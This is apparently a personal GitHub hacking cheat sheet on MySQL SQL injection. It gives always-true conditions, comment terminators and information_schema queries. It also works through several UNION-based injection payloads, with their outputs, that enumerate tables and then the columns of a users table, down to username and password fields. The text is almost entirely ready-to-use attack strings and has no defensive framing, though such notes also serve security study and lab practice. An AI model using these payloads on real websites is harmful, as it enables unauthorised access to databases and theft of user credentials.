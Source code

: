 # hacking

## External stuff

[exploit-db](https://www.exploit-db.com/papers/13045/) [ASCII table](https://github.com/justin-p/sec-stuff/blob/master/general%20info/ascii-table.md)

### Always True

1=1 a=a

### Escape/stop

```sql
# 
-- 
#--
```

### MySQL Verison

select version\(\)

### information Schema

#### Table names

```sql
SELECT table_schema,table_name FROM information_Schema.tables

SELECT CONCAT(table_schema,table_name) FROM information_Schema.tables

SELECT CONCAT(table_schema,char(58),table_name) FROM information_Schema.tables
```

#### Injection example 1

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 ORDER BY table_name LIMIT 0,1) #--
```

```text
dummymalex:dummyms
table_schema = dummymalex
table_name   = dummyms
```

#### Hide stuff we dont need

```sql
AND table_schema != 'information_schema'
```

#### Injection example 2

```sql
' union (select CONCAT(table_schema,char(58),table_name) from information_Schema.tables where 1=1 AND table_schema != 'information_schema' ORDER BY table_name LIMIT 0,1) #--
```

```text
LIMIT 0,1
dummymalex:dummyms 
table_schema = dummymalex
table_name   = dummyms 

LIMIT 1,1 
dummymalex:users     
table_schema = dummymalex
table_name   = users
```

#### column\_name

```sql
SELECT column_schema,column_name FROM information_Schema.columns
```

#### Injection Example 1

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='dummyms' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
dummyms

LIMIT 2,1
description
```

#### Injection Example 2

```sql
' union (select CONCAT(column_name) from information_Schema.columns where table_name='users' LIMIT 0,1) #--
```

```text
LIMIT 0,1
ID

LIMIT 1,1
username

LIMIT 2,1
password
```

